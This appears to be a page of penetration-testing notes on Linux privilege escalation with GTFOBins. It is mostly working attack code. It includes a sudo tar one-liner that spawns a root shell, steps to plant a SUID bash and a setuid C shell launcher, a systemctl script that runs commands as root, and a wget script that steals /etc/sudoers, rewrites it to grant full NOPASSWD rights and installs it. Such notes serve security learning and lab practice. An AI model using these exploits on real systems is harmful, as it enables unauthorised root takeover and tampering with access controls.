 # GTFOBins

<div class="row row-cols-md-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (8.3k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](perms.md#suidguid-bit)
* [Binary was given capabilities](perms.md#capabilities)
* [Binary was delegate sudo permission](sudo.md#administrative-privileges)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
</div></div>

<hr class="sep-both">

## ⚡ Create a root bash

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Version 1: with root executing 2 commands

```ps
$ cp /bin/bash /tmp/rootbash
```

Run **as root** (SUID executable, sudo...) the commands

```ps
$ chown root /tmp/rootbash
$ chmod +s /tmp/bash
```

Run the bash with `-p` and enjoy.

```ps
$ /tmp/rootbash -p
```
</div><div>

* ➡️ Version 2: with root executing an executable

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```ps
$ gcc xxx.c -o rootbash
```

Then, you have to execute `rootbash` as root, either using a misconfiguration in sudo, SUID, cron jobs...

</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-md-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/architecture/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>